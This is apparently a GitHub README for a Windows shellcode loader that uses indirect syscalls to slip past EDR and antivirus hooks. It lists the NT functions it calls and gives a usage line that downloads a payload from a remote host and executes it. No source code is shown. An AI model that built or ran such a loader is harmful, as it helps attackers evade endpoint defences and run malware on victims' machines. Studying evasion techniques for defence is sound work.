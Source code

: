 
# Indirect Syscall Loader

This project demonstrates a stealthy shellcode loader for Windows x64 that uses **indirect syscalls** to bypass user-mode API hooks used by EDR and antivirus software.

## Features
- Dynamic syscall number and address resolution from `ntdll.dll`.
- Custom assembly stubs for `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtCreateThreadEx`, and `NtWaitForSingleObject`.
- HTTPS payload download using `WinINet`.
- Direct syscalls for memory allocation, writing, and execution.

## Usage
```bash
loader.exe <HOST> <PATH> <PORT>
````

Example:

```bash
loader.exe 192.168.100.192 /payload.bin 443
```

## More Information

For a detailed explanation of how this works, visit:
[https://portfolio-three-alpha-27.vercel.app/Blogs/indirect-system-call](https://portfolio-three-alpha-27.vercel.app/Blogs/indirect-system-call)

---

⚠️ **Disclaimer**: This code is for educational and research purposes only. Do not use it for malicious activities.

```
